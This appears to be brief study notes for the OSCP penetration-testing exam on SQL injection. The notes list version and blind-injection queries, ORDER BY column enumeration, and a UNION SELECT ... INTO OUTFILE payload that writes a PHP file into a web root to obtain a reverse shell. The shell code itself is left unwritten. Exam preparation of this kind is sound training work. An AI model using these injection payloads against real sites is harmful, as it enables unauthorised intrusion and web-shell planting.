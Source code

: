 # SQL for OSCP

* select @@version
* select IF\(MID\(x,x,x\) = y,y,y\);
* Getting reverse shell
  * ?id=769 union all select 1,2,3,4,"",6 into OUTFILE 'c:/xampp/htdocs/rev\_shell.php'
  * this is the syntax, now just we need a php reverse shell code on liner.



## Enumeration

* column enumeration :`order by 1` followed by 2, 3, 4..
* 


